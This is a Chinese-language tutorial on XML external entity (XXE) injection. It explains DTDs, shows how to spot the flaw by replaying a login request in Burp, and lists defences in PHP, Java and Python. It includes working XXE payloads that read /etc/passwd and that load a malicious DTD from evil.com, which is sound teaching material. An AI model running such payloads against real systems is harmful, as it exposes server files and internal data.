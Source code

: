 ```yaml
---
title: XML实体注入漏洞
date: 2020-1-22 20:09:00
---
```

## XML外部实体注入

当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害

**注意：**执行系统命令(安装expect扩展的PHP环境里才有)

## XML基础

XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型.

是一种允许用户对自己的标记语言进行定义的源语言。

XML文档结构包括XML声明、DTD文档类型定义、文档元素。

```html
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,bodys)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from  (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT bodys (#PCDATA)>
]><!--文档类型定义-->
<note>
	<to>北京</to><from>石家庄</from>
	<heading>wintrysec</heading><bodys>wintrysec.github.io</bodys>
</note><!--文档元素-->
```

DTD(文档类型定义)的作用是定义xml文档的合法构建模块。

DTD 可以在 XML 文档内声明，也可以外部引用。

PCDATA 指的是被解析的字符数据（Parsed Character Data）

XML解析器通常会解析XML文档中所有的文本

```xml
<message>此文本会被解析</message>
```

当某个XML元素被解析时，其标签之间的文本也会被解析： 

```xml
<name><first>Bill</first><last>Gates</last></name>
```

```html
<!--内部声明DTD-->
<!DOCTYPE 根元素 [元素声明]>
<!--引用外部DTD-->
<!DOCTYPE 根元素 SYSTEM “文件名”>
<!--或者-->
<!DOCTYPE 根元素 PUBLIC “public_ID” “文件名”>
<!--DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。-->

<!--内部声明实体-->
<!ENTITY 实体名称 “实体的值">
<!--引用外部实体-->
<!ENTITY 实体名称 SYSTEM “URI">
<!--或者-->
<!ENTITY 实体名称 PUBLIC “public_ID" “URI">
```

## 恶意引入外部实体的三种方式

#### 一、本地引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY wintrysec SYSTEM "file:///etc/passwd">
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;) 

#### 二、远程引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY %d SYSTEM "http://evil.com/evil.dtd">
	%d;
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

DTD文件(evil.dtd)内容：

```xml
<!ENTITY wintrysec SYSTEM “file:///etc/passwd">
```

#### 三、远程引入2

```xml
<?xml version="1.0" ?>
<!DOCTYPE x SYSTEM "http://evil.com/evil.dtd">
<test>&wintrysec;</test>
```

另外，不同程序支持的协议不一样

 ![](/assets/wgpsec/images/xml1.png) 

 上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有

 ![](/assets/wgpsec/images/xml2.png) 

## 发现XXE漏洞

寻找那些接受XML作为输入内容的端点。 

用Burp抓包，随便输入密码点击登录

观察应用程序的XML传输数据。

请求：

![request](/assets/wgpsec/images/xmlr1.png)

响应：

![Response](/assets/wgpsec/images/xmlp1.png)

应用程序正在解析XML内容，接受特定的输入，然后将其呈现给用户

修改请求的XML内容，重放

![](/assets/wgpsec/images/xmlre1.png)

我们在上面的请求中定义了一个名为wintrysec，值为 'wintrysec666' 的实体

根据响应报文得知，解析器已经解析了我们发送的XML实体，并将实体内容呈现出来了。

由此，可以确认，这个应用程序存在XXE漏洞。

**读取任意文件：**

修改数据包内容为：

```xml
<?xml version="1.0"?> 
<!DOCTYPE a [ 
    <!ENTITY wintrysec SYSTEM "file:///etc/passwd"> 
]> 
<user><username>&wintrysec;</username><password>123</password></user>
```

重放， 成功读取`/etc/passwd`文件 

 ![](/assets/wgpsec/images/xmlre2.png) 

## 防御XXE攻击

#### **一、过滤用户提交的XML数据**

```xml
关键字：
<!DOCTYPE和<!ENTITY，SYSTEM
```

#### **二、使用开发语言提供的禁用外部实体的方法**

PHP：

```php
libxml_disable_entity_loader(true);
```

JAVA:

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
